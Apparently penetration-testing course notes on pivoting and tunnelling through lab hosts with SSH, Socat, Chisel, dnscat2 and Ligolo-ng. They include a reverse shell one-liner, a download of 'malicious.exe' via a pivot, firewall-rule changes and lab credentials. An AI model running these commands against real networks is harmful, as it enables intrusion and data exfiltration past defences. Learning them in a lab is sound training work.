>[!info]- Info - Module Aim & Definitions
>
>**Aim**
>Firewalls are commonly used to limit the flow into or out from a network. Most firewalls tend to filter traffic based on IP addresses and port numbers, but some monitor the traffic content as well. **Port redirection** and **tunnelling** help overcome firewalls.
>
>---
>
>**Port redirection**
>Port redirection means changing the flow of data so that packets sent to one socket will be reverted to another socket.
>
>---
>
>**Tunnelling**
>Tunnelling means encapsulating one type of data within another. Eg, transporting HTTP traffic within a SSH connection (so externally it seems to only be SSH traffic).
## Port Forwarding

### Others (not explained)
- Netcat and named pipes (only mentioned by name)
- IPtables (requires root privileges, only mentioned by name)
### Socat

>[!info]- Info - Setup
>

>
>We do have a PostgreSQL client installed on Kali. We can create a port forward on CON that forwards all packets received on its WAN interface to the PostgreSQL server on PG. 


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	critical Setup a port forward
		Note over C: socat -ddd TCP-LISTEN:2345,fork<br> TCP:10.4.50.215:5432
		K-->>C: #10142; port 2345
		activate C
		C-->>P: #10142; port 5432
		deactivate C
	end
	critical Connect to the database
		Note over K: psql -h 192.168.50.63<br> -p 2345 -U postgres
		K->>C: #10142; port 2345
		activate C
		C->>P: #10142; port 5432
		deactivate C
	end 
```

>[!code]- Setup a port forward<br>`socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432`
>1. Listen (on CON) on TCP port 2345 (**TCP-LISTEN:2345**)
>2. Fork into a new subprocess when it receives a connection (**fork**) instead of dying after a single connection
>3. Forward all traffic it receives to TCP port 5432 on PG (**TCP:10.4.50.215:5432**).
>


>[!code]- Connect to the database<br>`psql -h 192.168.50.63 -p 2345 -U postgres`
>- Connect to CON (**-h 192.168.50.63**) on port 2345 (**-p 2345**)
>- With the _postgres_ user account (**-U postgres**)

### SSH

>[!info]- Info - SSH for tunnelling
>_Secure Shell_ (SSH) is a tunnelling protocol, which is specifically designed to encapsulate data. Tunnelling data through an SSH connection is often referred to as _SSH port forwarding_.
#### SSH Local Port Forwarding

>[!info]- Info - Port forwarding
>Packets are not forwarded by the same host that listens for packets (like seen with Socat port forwarding). Instead, an SSH connection is setup between two hosts (an SSH client and an SSH server), a listening port is opened by the _SSH client_, and then all packets received on this port are _tunnelled through the SSH connection_ to the _SSH server_. The packets are then forwarded by the SSH server to the socket we specify.

>[!info]- Setup
>We have access to CONFLUENCE01 and PGDATABASE01 and now find another host with a SMB server open, on TCP port 445. We want to connect to that SMB server via CONFLUENCE01 and PGDATABASE01.
>
>


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	participant ? as ????<br>172.16.50.217
	critical Setup SSH local port forward
		Note over C: ssh -N -L 0.0.0.0:4455:172.16.50.217:445<br> database_admin@10.4.50.215
		C-->C: receive on 4455
		activate C
		C-->P: (SSH tunnel)<br>port x #10142; 22
		deactivate C
		activate P
		P-->?: port x #10142; 445
		deactivate P
	end
	critical Connect to SMB
		Note over K: smbclient -p 4455 -L //192.168.50.63/<br> -U hr_admin --password=Welcome1234
		K->>C: port x #10142; 4455
		activate C
		C-->>P: (SSH tunnel)<br>port x #10142; 22
		deactivate C
		activate P
		P->>?: port x #10142; 445
		deactivate P
	end
```

>[!code]- Setup SSH local port forward<br>`ssh -N -L 0.0.0.0:4455:172.16.50.217:445
database_admin@10.4.50.215`
>Instruct SSH to:
>- listen on all interfaces on port **4455** on CONFLUENCE01 (**0:0:0:0:4455**)
>- then forward all packets (through the SSH tunnel to PGDATABASE01) to port **445** on the newly-found host (**172.16.50.217:445**).
>
>We'll pass the local port forwarding argument (**-L**) and use **-N** to prevent a shell from being opened.
>
>>[!tip]
>>- The -N flag prevents any output. The -f flag forks the process, giving back access to the current terminal.
>>- We can confirm that the _ssh_ process is listening on CONFLUENCE01 using _ss -ntplu_.
>
>
>>[!error] If the SSH connection or the port forward fails
>>And the output we get from the standard SSH session isn't sufficient to troubleshoot it, we can pass the **-v** flag to *ssh* in order to receive debug output.
#### SSH Dynamic Port Forwarding

>[!info]- Info - Dynamic vs local port forwarding
>Local port forwarding limits you to only one socket per SSH connection. _Dynamic port forwarding_ lets you forward to any socket that the SSH server host has access to, from a single listening port on the SSH client.
>
>It works because the listening port that the SSH client creates is a _SOCKS_ proxy server port.

>[!info]- Info - SOCKS and Proxychains
>**SOCKS**
>SOCKS is a proxying protocol. Like a postal service, a SOCKS server accepts packets (with a SOCKS protocol header) and forwards them on to wherever they're addressed.
>
>---
>
>**Proxychains**
>Proxychains is a tool that can force network traffic from third party tools over HTTP or SOCKS proxies. It can also be configured to push traffic over a _chain_ of concurrent proxies.
>
>>[!warning] Proxychains won't work in every situation
>>It will work for most _dynamically linked_ binaries that perform simple network operations; it won't work on _statically-linked_ binaries.

>[!info]- Info - Setup
>
>- We are listening on TCP port 9999 on the WAN interface of CONFLUENCE01
>- Packets sent to port 9999 (in SOCKS format) are pushed through the SSH tunnel to PGDATABASE01
>- Then forwarded to wherever they are addressed


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	participant ? as ????<br>172.16.50.217
	critical Setup SSH dynamic port forward
		Note over C: ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
		C-->C: receive on port 9999
		activate C
		C-->P: (SSH tunnel)<br>#10142; port 22
		deactivate C
		activate P
		P-->?: #10142; any port
		deactivate P
	end
	Note over K: Edit /etc/proxychains4.conf<br>`socks5 192.168.50.63 9999`
	critical Connect to SMB using Proxychains
		Note over K: proxychains smbclient -L //172.16.50.217/<br> -U hr_admin -- password=Welcome1234
		K->>C: #10142; port 9999
		activate C
		C-->>P: (SSH tunnel)<br>#10142; port 22
		deactivate C
		activate P
		P->>?: #10142; port 445
		deactivate P
	end
	critical Nmap port scan using Proxychains
		Note over K: proxychains nmap -vvv -sT --top-ports=20<br> -Pn 172.16.50.217
		K->>C: #10142; port 9999
		activate C
		C-->>P: (SSH tunnel)<br>#10142; port 22
		deactivate C
		activate P
		P->>?: #10142; multiple ports
		deactivate P
	end
```

>[!code]- Create a SSH dynamic port forward<br>`ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215`
>- A dynamic port forward is done so with **-D**
>- **-N** flag prevents a shell from being spawned

>[!code]- Edit the proxychains config file
>We need to edit the **/etc/proxychains4.conf** file to ensure that Proxychains can locate our SOCKS proxy port, and confirm that it's a SOCKS proxy (rather than another kind of proxy).
>
>By default proxies are defined at the end of the file. We can replace any existing proxy definition in that file with a single line defining the proxy type, IP address, and port of the SOCKS proxy running on CONFLUENCE01 (**socks5 192.168.50.63 9999**).
>
>Although we use socks5 in this case, it could also be socks4, since SSH supports both. Some SOCKS proxies will only support the SOCKS4 protocol; make sure to check before editing the config file.

>[!code]- Use smbclient with proxychains<br>`proxychains smbclient -L //172.16.50.217/
-U hr_admin -- password=Welcome1234`
>Use the command as normal but preface it with proxychains so that it is sent to the socket defined in **/etc/proxychains4.conf** (ie **192.168.50.63:9999**).
#### SSH Remote Port Forwarding

>[!info]- Info - Remote vs Local (Firewalls)
>Local port forwarding or dynamic port forwarding is possible because we can connect to any port on CONFLUENCE01. In the real word, however, firewalls often get in the way.
>
>**Outbound traffic is more likely to be accepted by firewalls than inbound**.
>
>Particularly, _inbound_ traffic is much more aggressively controlled than _outbound_ traffic. (It's unlikely we could SSH _into_ a network but much more likely we could SSH _out_ of a network.)
>
>SSH _remote port forwarding_ causes the SSH connection to connect back to an attacker-controlled SSH server and bind the listening port there.
>
>
>>[!info]- Compare Setups
>>
>>| | Listening and Dynamic | Remote |
>>| ---- | ---- | ---- |
>>| Listening is done by... | SSH client | SSH server |
>>| Forwarding is done by... | SSH server | SSH client |
>>
>>**Local and Dynamic**
>>
>>
>>**Remote**
>>

>[!info]- Info - Setup
>Due to firewalls, we can only connect to TCP port 8090 on CONFLUENCE01.
>
>- We connect from CONFLUENCE01 to Kali via SSH
>- The listening TCP port 2345 is bound to the loopback interface on Kali
>- Packets sent to port 2345 on Kali are pushed by the Kali SSH server through the SSH tunnel back to the SSH client on CONFLUENCE01
>- The packets are then forwarded on to PGDATABASE01
>
>

>[!warning]- Kali user password SSH configuration
>Ensure bubbleman user has a strong password. May also need to set **PasswordAuthentication** to **yes** in **/etc/ssh/sshd_config**.


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	Note over K: Start the SSH server<br>`sudo systemctl start ssh`
	Note over K: Check SSH is running<br>`sudo ss -ntplu`
	
	critical Setup SSH remote port forward
		Note over C: ssh -N -R 127.0.0.1:2345:10.4.50.215:5432<br> kali@192.168.118.4
		C-->>K: (SSH tunnel)
		activate K
		K-->>C: (SSH tunnel)<br>port 2345 #10142; ?
		deactivate K
		activate C
		C-->>P: #10142; port 5432
		deactivate C
	end
	critical Connect to PostgreSQL database
		Note over K: psql -h 127.0.0.1<br> -p 2345 -U postgres
		K->>C: (SSH tunnel)<br>port 2345 #10142; ?
		activate C
		C->>P: #10142; port 5432
		deactivate C
	end
```

>[!code]- Setup a remote port forward<br>`ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4`
>- **-R** is the remote port forwarding option
>- The listening socket is defined first (Kali, **127.0.0.1:2345**) and the forwarding socket is second (CONFLUENCE01, **10.4.50.215:5432**)
#### SSH Remote Dynamic Port Forwarding

>[!warning]- Limitation - Any sent packets need to be SOCKS compatible.
>The only limitation is the packets have to be properly formatted, usually done by SOCK-compatible software. Sometimes software is not SOCKS-compatible.

>[!warning]- Limitation - The OpenSSH client needs to be version 7.6 or above

>[!info]- See [](.md#SSH%20Dynamic%20Port%20Forwarding|SSH%20Dynamic%20Port%20Forwarding) section for information about SOCKS and Proxychains

>[!info]- Info - Setup
>
>OR
>


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	Note over K: Start the SSH server<br>`sudo systemctl start ssh`
	Note over K: Check SSH is running<br>`sudo ss -ntplu`
	
	critical Setup SSH remote dynamic port forward
		Note over C: ssh -N -R 9998 kali@192.168.118.4
		C-->>K: (SSH tunnel) 
		activate K
		K-->>C: (SSH tunnel)<br>port 9998 #10142;<br>socks traffic
		deactivate K
		activate C
		C-->>P: #10142; any port
		deactivate C
	end
	Note over K: Edit /etc/proxychains4.conf<br>`socks5 127.0.0.1 9998`
	critical Run Nmap
		Note over K: proxychains nmap -vvv -sT<br> --top-ports=20 -Pn -n 10.4.50.64
		K-->>C: (SSH tunnel)
		activate C
		C->>P: #10142; any port
		deactivate C
	end
```

>[!code]- Setup the SSH remote dynamic port forward<br>`ssh -N -R 9998 kali@192.168.118.4`
>- Following the **-R** option, we specify only one socket: the socked we want to listen on the SSH server (without specifying an IP it will default to the loopback address)
>- **-N** to prevent a shell from being opened

### Sshuttle

>[!warning]- Requires root privileges on the SSH client

>[!warning]- Requires Python3 on the SSH server

>[!info]- Info - Sshuttle
>Sshuttle is a tool that turns an SSH connection into something similar to a VPN by setting up local routes that force traffic through the SSH tunnel.


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	participant ? as ????<br>172.16.50.217
	critical Setup Socat port forward
		Note over C: socat TCP-LISTEN:2222,fork<br> TCP:10.4.50.215:22
		K-->>C: #10142; port 2222
		activate C
		C-->>P: #10142; port 22
		deactivate C
	end
	critical Specify which subnets to run through the SSH connection
	Note over K: sshuttle -r database_admin@192.168.50.63:2222<br> 10.4.50.0/24 172.16.50.0/24
	end
	critical Connect to smbclient
		Note over K: smbclient -L //172.16.50.217/<br> -U hr_admin --password=Welcome1234
		K->>C: #10142; port 2222
		activate C
		C->>P: #10142; port 22
		deactivate C
		activate P
		P->>?: #10142; port 445
	end
```

>[!code]- Run sshuttle to specify the subnets to tunnel through the 192.168.50.63:2222 socket<br>`sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24`
>Any commands that specify an IP in the **10.4.50.0/24** or **172.16.50.0/24** subnet will be sent to the socket **192.168.50.63:2222** (which is then forwarded by Socat to the socket **10.4.50.215:22**).

---
### ssh.exe

>[!warning]- Warning - The same limitations apply as mentioned in the [](.md#SSH|SSH%20section).

>[!info]- Info - SSH Install Location
> The OpenSSH client has been bundled with Windows by default since version 1803 (April 2018 update). When installed, it's found in **%systemdrive%\Windows\System32\OpenSSH**.

>[!info]- Info - Setup
>
>
#### Remote Dynamic Port Forward


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant M as MULTISERVER<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	Note over K: `sudo systemctl<br> start ssh`
	Note over M: Find install location<br> `where ssh`
	Note over M: Check install version<br> (above 7.6 for remote dynamic?)<br>`ssh.exe -V`
	critical Setup SSH remote dynamic port forward
		Note over M: ssh -N -R 9998 kali@192.168.118.4
		M-->>K: (ssh tunnel)<br> port 22 #8592;
		activate K
		K-->>M: (ssh tunnel)<br>(socks traffic)<br>port 9998 #10142;
		deactivate K
	end
	Note over K: Update /etc/proxychains.conf4<br>`socks5 127.0.0.1 9998`
	critical Connect to PostgreSQL database
		Note over K: proxychains psql -h 10.4.50.215<br> -U postgres
		K->>M: (ssh tunnel)
		activate M
		M->>P: #10142; port 5432
		deactivate M
	end
```
### Plink

>[!info]- Info - Why Plink might be installed
>Admins may have removed OpenSSH but Plink, a command-line version of PuTTY, which preceded OpenSSH, may still be installed.

>[!warning]- Limitation - Plink doesn't support remote dynamic port forwarding

>[!info]- Info - Setup
>
>
#### Remote Port Forward


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant M as MULTISERVER<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	critical Setup SSH remote dynamic port forward
		Note over M: plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE><br> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
		M-->>K: (ssh tunnel)<br> port 22 #8592;
		activate K
		K-->>M: (ssh tunnel)<br>port 9833 #10142; 3389
		deactivate K
	end
	critical RDP onto MULTISERVER03
		Note over K: xfreerdp /u:rdp_admin<br> /p:P@ssw0rd! /v:127.0.0.1:9833
		K->>M: (ssh tunnel) #10142; port 3389
	end
```

>[!code]- Setup a remote port forward<br>`plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4`
>- **-R** the socket we want to open on the Kali SSH server and the RDP server port on the loopback interface of MULTISERVER03 that we want to forward packets to
>- **-l** username and **-pw** password

>[!code]- Automatically accept any SSH prompt<br>`cmd.exe /c echo y | ..exe - ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7`
>In much the same way that it’s not possible to accept the SSH client key cache prompt from a non-TTY shell on Linux, with some very limited shells with Plink on Windows, we also won’t be able to respond to this prompt. An easy solution in that case would be to automate the confirmation with cmd.exe /c echo y, piped into the plink.exe command. This will emulate the confirmation that we usually type when prompted.
### Netsh

>[!warning]- Requires admin privileges

>[!info]- Info - Netsh
>Netsh is a built-in firewall configuration tool.

>[!info]- Info - Setup
>
>


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant M as MULTISERVER<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	critical Setup netsh port forward
		Note over M: Run `cmd.exe` as administator
		Note over M: netsh interface portproxy add v4tov4<br> listenport=2222 listenaddress=192.168.50.64<br> connectport=22 connectaddress=10.4.50.215
		activate M
		M-->>M: listen port 2222
		M-->>P: #10142; port 22
		deactivate M
	end
	critical Check port forward status
		Note over M: `netsh interface portproxy show all`<br>`netstat -anp TCP | find "2222"`
	end
	K-xM: Firewall blocks our request<br> to port 2222
	critical Edit firewall rules
		Note over M: netsh advfirewall firewall add rule<br> name="port_forward_ssh_2222" protocol=TCP dir=in<br> localip=192.168.50.64 localport=2222 action=allow
	end
	critical Connect via SSH
		K->>M: #10142; port 2222
		activate M
		M->>P: #10142; port 22
		deactivate M
	end
	critical Delete firewall and portporxy rule
		Note over M: netsh advfirewall firewall<br> delete rule name="port_forward_ssh_2222"
		Note over M: netsh interface portproxy del v4tov4<br> listenport=2222 listenaddress=192.168.50.64
	end
```
## Tunnelling through Deep Packet Inspection

>[!info]- Info - What is Deep Packet Inspection?
>DPI may be configured to allow only specific transport protocols into or out of a network. It can bar all traffic associated with a particular protocol, like SSH, rather than banning a port.
### HTTP Tunnelling
#### Chisel

>[!info]- Info - Network Setup (only outbound HTTP traffic from victim allowed)
>We want to SSH directly to PGDATABASE01 through CONFLUENCE01. We need a tunnel into the internal network, but it must resemble an outgoing HTTP connection from CONFLUENCE01.
>

>[!info]- Info - Chisel
>Chisel encapsulates data within HTTP packets. It also uses the SSH protocol within the tunnel so the data is encrypted.
>
>___
>
>Chisel uses a client/server model. A _Chisel server_ accepts a connection from the _Chisel client_.

>[!exploit]- Exploit - Using Chisel
>
>1. We will run a Chisel server on Kali, which will accept a connection from a Chisel client running on CONFLUENCE01.
>2. Chisel will bind a SOCKS proxy port on Kali.
>3. The Chisel server will encapsulate whatever we send through the SOCKS port and push it through the HTTP tunnel, SSH-encrypted.
>4. The Chisel client will then decapsulate and push the received traffic to wherever it is addressed.

>[!code]- Download correct version
>###### Uname -m then...
>
###### SOCKS proxy


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	critical Set up Chisel
		Note over K: chisel server --port 8080<br>--reverse
		Note over C: chisel client 192.168.118.4:8080<br>R:socks > /dev/null 2>&1 &
		C-->>K: (Chisel tunnel)<br>port 8080 #8592; C
		activate K
		K-->>K: Setup listener on<br>127.0.0.1:1080
		deactivate K
		activate K
		K-->>C: (Chisel tunnel)<br>port 1080 #8594; C
		deactivate K
	end
	critical SSH via Chisel tunnel
		Note over K: ssh -o ProxyCommand=<br>'ncat --proxy-type socks5<br> --proxy 127.0.0.1:1080 %h %p'<br>database_admin@10.4.50.215
		K->>C: (Chisel tunnel)<br>K #8594; C
		activate C
		C->>P: (Forwarded by Chisel client)<br>C #8594; port 22
		deactivate C
		P->>K: SSH shell<br>(Effectively)
	end
```

>[!code]- Set up the Chisel server<br>`chisel server --port 8080 --reverse`
>- `--port 8080` listen on port 8080
>- `--reverse` allow reverse port forwarding

>[!code]- Set up the Chisel client<br>`client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &`
>- `192.168.118.4:8080` connect to the Chisel server socket on Kali
>- `R:socks` create a reverse (_R_) SOCKS (_socks_) tunnel (which is bound to port 1080 by default)
>- `> /dev/null 2>&1 &` redirect shell output to force the process to run in the background and free up our shell

>[!code]- SSH via the Chisel tunnel<br>`ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215`
>- `-o ProxyCommand` accepts a shell command that opens a proxy-enabled channel
>	- Ncat supports proxying whereas nc does not (may need to install ncat)
>	- 
###### Reverse port forward


```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	critical Set up Chisel
		Note over K: chisel server --port 8080<br>--reverse
		Note over C: chisel client 192.168.118.4:8080<br>R:1433:127.0.0.1:1433
		C-->>K: (Chisel tunnel)<br>port 8080 #8592; C
		activate K
		K-->>K: Setup listener on<br>127.0.0.1:1433
		deactivate K
		activate K
		K-->>C: (Chisel tunnel)<br>port 1433 #8594; C port 1433
		deactivate K
	end
	critical SSH via Chisel tunnel
		Note over K: impacket-mssql<br>svc_mssql:'Service1'@127.0.0.1<br>-windows-auth
		K->>C: (Chisel tunnel)<br>port 1433 K #8594; C port 1433
		activate C
	end
```

### DNS Tunnelling
#### dnscat2

>[!info]- Info - Network Setup
>

>[!info]- Info - What is dnscat2?
>_dnscat2_ can exfiltrate data with DNS subdomain queries and infiltrate data with TXT (and other) records.


```mermaid
sequenceDiagram
	participant F as FELINEAUTHORITY<br>192.168.50.64<br>(Under our control)
	participant M as MULTISERVER03<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	participant H as HRSHARES<br>172.16.50.217
	critical Setup dnscat2
		Note over F: dnscat2-server feline.corp
		Note over P: ./dnscat feline.corp
		P-->>F: (dns tunnel)<br>port 53 #8592; P, via M
	end
	critical Setup port forward
		Note over F: listen 127.0.0.1:4455<br>172.16.2.11:445
			F-->>F: port 4455
		activate F
			F-->>P: (dns tunnel)<br>F #8594; P
		deactivate F
		activate P
			P-->>H: P #8594; port 445
		deactivate P
	end
	Note over F: smbclient -p 4455 -L //127.0.0.1<br>-U hr_admin -- password=Welcome1234
	F->>F: F #8594; port 4455
	F->>P: (dns tunnel)<br>F #8594; P
	activate P
		P->>H: P #8594; port 445
	deactivate P
```

>[!code]- Create a port forward with dnscat2<br>`listen 127.0.0.1:4455 172.16.2.11:445`
>- Listen on loopback address port 4455 and forward any incoming traffic to 172.16.2.11 on port 445
### Ligolo-ng

>[!code]- [Download](https://github.com/nicocha30/ligolo-ng/releases) the agent and proxy (if required)
>Usually amd64 is required.
>- Proxy = attacking
>- Agent = victim (Windows / Linux)

>[!code]- Undo Ligolo-ng commands
>```powershell
># sudo ip tuntap add user kali mode tun ligolo
>sudo ip tuntap del mode tun dev ligolo
>
># sudo ip link set ligolo up
>sudo ip link set ligolo down
>
># sudo ip route add 192.168.2.0/24 dev ligolo
>sudo ip route del 192.168.2.0/24 dev ligolo
>```
#### Single pivot


```mermaid
sequenceDiagram
	participant K as KALI<br>10.10.14.3
	participant C as CONFLUENCE01<br>172.16.1.215
	participant P as PGDATABASE01<br>192.168.2.100
	Note over K: sudo ip tuntap add user kali mode tun ligolo
	Note over K: sudo ip link set ligolo up
	Note over K: ./proxy -selfcert
	Note over C: ./agent -connect 10.10.14.3:11601 -ignore-cert
	Note over K: >> session<br>>> 1
	Note over K: [new terminal]<br>sudo ip route add 192.168.2.0/24 dev ligolo<br><br>[check]<br>ip route list
	Note over K: >> start
	Note over K: nmap 192.168.2.100
	K->>C: K #8594; C
	activate C
	C->>P: C #8594; P
	deactivate C
```
#### Listeners (for reverse shells / file transfers)


```mermaid
sequenceDiagram
	participant K as KALI<br>10.10.14.3
	participant C as CONFLUENCE01<br>172.16.1.215
	participant P as PGDATABASE01<br>192.168.2.100
	participant D as MS01<br>192.168.123.50
	critical Setup a single pivot
		Note over K,C: see above
	end
	critical Execute a reverse shell
		Note over K: [Ensure within correct session]<br><br>>> listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
		Note over K: nc -lvnp 4444
		Note over P: /bin/sh -i >& /dev/tcp/172.16.1.215/1234 0>&1
		P->>C: port 1234 #8592; P 
		activate C
		C->>K: port 4444 #8592; C
		deactivate C
	end
	critical Transfer a file
		Note over K: >> listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:8000
		Note over K: python -m http.server 8000
		Note over P: wget http://172.16.1.215:1235/malicious.exe
		P->>C: port 1235 #8592; P
		activate C
		C->>K: port 8000 #8592; C
		deactivate C
	end
```
#### Double pivot


```mermaid
sequenceDiagram
	participant K as KALI<br>10.10.14.3
	participant C as CONFLUENCE01<br>172.16.1.215
	participant P as PGDATABASE01<br>192.168.2.100
	participant D as MS01<br>192.168.123.50
	Note over K: [Ensure within correct session]<br><br>>> listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
	Note over P: ./agent.exe -connect 172.16.1.215:11601 -ignore-cert 
	Note over K: >> session<br>>> 2
	Note over K: [new terminal]<br>sudo ip route add 192.168.123.0/24 dev ligolo2
	Note over C: >> session<br>>> 2<br>>> start --tun ligolo2
	Note over K: nmap 192.168.123.50
	K->>C: 
	activate C
	C->>P: 
	deactivate C
	activate P
	P->>D: 
	deactivate P
```
#### Triple pivot

See [this article](https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c).


